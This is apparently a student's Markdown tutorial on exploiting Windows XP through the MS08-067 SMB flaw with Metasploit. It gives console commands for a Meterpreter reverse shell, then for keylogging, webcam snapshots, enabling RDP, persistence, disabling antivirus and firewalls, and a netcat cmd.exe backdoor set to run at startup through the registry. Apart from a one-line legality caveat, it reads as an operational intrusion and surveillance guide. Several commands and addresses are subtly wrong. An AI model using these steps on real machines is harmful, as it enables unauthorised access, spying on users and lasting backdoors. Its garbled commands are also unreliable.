 
#Metasploit Instructions
##Introduction
Metasploit is a software tool used for using exploit to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer is and important it is that they should fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities instead it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to actually use. One should also be able to use and understand some sort of command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need.  Another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The steps that I will cover in this are the ability to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.

##Exploiting

	If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line “use exploit/” and because we are using windows we will use “use exploit/windows/ “ After this we need to know what kind of exploit this is luckily though we already know what kind of exploit this from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command “use exploit/windows/smb/ms08_067_netapi”. 
	After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command “set RHOST 127.0.0.0.1” with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
	The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command “set  payload windows/metepreter/reverse-tcp”. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the “set LHOST 127.0.0.1.”. The second option is the port you want to use to connect to the exploited machine.  To change this we use “set LPORT 6666”. After this is all done and it done correctly we should be able to run the exploit against the vulnerable.
	If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
	The first section will be about getting information about the user from metepreter.  The first thing we can run is the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command “keyscan” into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the “key_dump” to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command “getgui –u username –p password”. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command webcam_list and if there is one we can use the command “webcam_snap” which will take a picture of the person using the computer.
	The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command “run persistence –X –i  5 –p 6665 –r  127.0.0.1”. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command “killav” which can disable many anti viruses. We can also use the command “run getcountermeasures” to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done with the by first uploading netcat to the remote system using the command “upload /usr/share/windows-binaries/nc.exe C:\windows\system32” which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command “reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe'”. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command “netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL” which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use “nc -v 127.0.0.01 455” in your commandline to connect to the machine that you have infected. 
	While this is only one of the exploits that you can to gain access to computer the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instructions many things can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
